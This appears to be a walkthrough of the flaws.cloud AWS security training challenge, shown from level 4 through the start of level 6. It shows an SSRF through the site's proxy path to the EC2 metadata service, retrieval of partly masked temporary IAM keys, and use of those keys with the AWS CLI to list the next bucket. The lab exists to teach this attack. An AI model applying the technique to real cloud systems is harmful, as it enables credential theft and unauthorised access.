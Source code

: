 ![](https://paper-attachments.dropbox.com/s_6D19BB1F45E592221C2BD8A330A211A728A82C8FB50B08B3D5519C6EEB837193_1642201809392_image.png)

**Login to web service**
http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/

utilizing discovered credientials and gained access to level 5

![](https://paper-attachments.dropbox.com/s_6D19BB1F45E592221C2BD8A330A211A728A82C8FB50B08B3D5519C6EEB837193_1642201862906_image.png)


# Level 5 - 169.254.169.254 Metadata Service

Good work getting in. This level is described at [http://level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud/243f422c/](http://level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud/243f422c/)

AWS cloud services inclue a metadata service that is housed at 169.254.169.254 and [RFC-3927](https://tools.ietf.org/html/rfc3927) describes exactly how the services functions.

**Accessing Metadata Service of flaws.cloud**
http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/

![](https://paper-attachments.dropbox.com/s_6D19BB1F45E592221C2BD8A330A211A728A82C8FB50B08B3D5519C6EEB837193_1642270008742_image.png)

Listing metadata events for EC2 Instance.

**Latest Meta Data - Security Credentials**
http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/

![](https://paper-attachments.dropbox.com/s_6D19BB1F45E592221C2BD8A330A211A728A82C8FB50B08B3D5519C6EEB837193_1642270111594_image.png)

new set of Access + Secret Keys Identified along with a Token

    AccessKeyId : ASIA6GG7PSQGZMKA4S7M,
    SecretAccessKey : hltRwxxxxxxxxxxxxxxxxx/oNbu,
    "Token" : "IQoJb3xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx=="


**Create Level5 AWS profile with credentials**
within `/.aws/credentials/` and `/.aws/config`

./aws/credentials: 

![](https://paper-attachments.dropbox.com/s_6D19BB1F45E592221C2BD8A330A211A728A82C8FB50B08B3D5519C6EEB837193_1642270492803_image.png)

**Access level 6**

    aws --profile level5 s3 ls level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud

![](https://paper-attachments.dropbox.com/s_6D19BB1F45E592221C2BD8A330A211A728A82C8FB50B08B3D5519C6EEB837193_1642272721059_image.png)

**Navigate to  directory**
http://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/


# Level 6 - IAM Access Keys via EC2 User-data
